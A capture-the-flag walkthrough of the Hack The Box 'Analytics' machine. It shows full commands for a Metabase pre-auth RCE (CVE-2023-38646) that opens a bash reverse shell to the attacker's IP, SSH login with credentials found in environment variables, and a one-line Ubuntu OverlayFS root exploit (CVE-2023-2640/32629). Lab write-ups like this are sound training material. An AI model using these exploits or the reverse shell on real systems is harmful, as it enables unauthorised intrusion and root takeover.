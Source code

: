 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

## 🔍 Scanning & Enumeration

```bash
ping <Analytics IP Address>                            # Verify host is up (TTL ~63 = Linux)
sudo nmap -T4 -A -p- <Analytics IP Address>            # Full aggressive scan
nano /etc/hosts                                        # Map domain + subdomain
# Example entry: <Analytics IP> analytical.htb data.analytical.htb
```

---

## 🕸️ [Web Application Analysis](HTTP)

```http
http://data.analytical.htb/auth/login                 # Found Metabase login portal
```

---

## 📌 Exploit CVE-2023-38646 (Metabase Pre-Auth RCE)

**Reference:** [GitHub - m3m0o/metabase-pre-auth-rce-poc](https://github.com/m3m0o/metabase-pre-auth-rce-poc)

```bash
# Get setup-token
curl http://data.analytical.htb/api/session/properties

# Start listener
sudo nc -nlvp 4444

# Launch exploit
python3 main.py -u http://data.analytical.htb -t <setup-token> -c "bash -i >& /dev/tcp/<your-IP>/4444 0>&1"
```

---

## 🐚 [Shell](SSH) Access & User PrivEsc

```bash
cd /home/metabase                                    # Check for user flag (none found)
env                                                  # Enumerate environment variables
ssh metalytics@<Analytics IP>                        # SSH using creds from env
cat user.txt                                         # Get user flag
```

---

## ⛏️ Privilege Escalation (Kernel Exploit)

### Check Permissions & Environment

```bash
id                                                   # Check UID/GID
mkdir /opt/testdir                                   # Check directory write permissions (denied)
find / -type f \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null
cat /proc/version                                    # Find kernel version: Ubuntu 22.04.2
```

### Exploit CVE-2023-2640 / CVE-2023-32629

**Reference:** [GitHub - g1vi/CVE-2023-2640-CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; \
setcap cap_setuid+eip l/python3; \
mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && \
u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && \
chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

---

## 🔐 Root Access

```bash
cat /root/root.txt                                   # Get root flag
```
